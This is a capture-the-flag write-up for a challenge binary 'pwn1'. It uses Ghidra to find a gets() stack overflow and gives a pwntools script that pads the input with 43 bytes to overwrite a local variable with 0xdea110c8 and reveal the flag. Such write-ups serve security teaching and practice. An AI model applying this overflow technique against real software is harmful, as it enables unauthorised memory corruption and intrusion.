



Opening the file with Ghidra


We, get answers to the questions `What... is your name?`, `What... is your quest?` i.e.`Sir Lancelot of Camelot` and `To seek the Holy Grail.` respectively.


Then, question asks for the secret and compares the variable `local_18` to `0xdea110c8` and prints the flag if they are equal. But `local_18` is set `=0`. So, as `local_18` is stored on the stack and `gets` function is called for `local_43`, we can overwrite the value of `local_18`.



We can see that there is offset of `0x43-0x18 = 0x2b` between `local_43` i.e. start of the input and `local_18`.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template pwn1
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pwn1')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()
io.send(b"Sir Lancelot of Camelot\n")
io.send(b"To seek the Holy Grail.\n")
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*43 + p32(0xdea110c8)
io.send(payload)
# flag = io.recv(...)
# log.success(flag)
io.interactive()
```


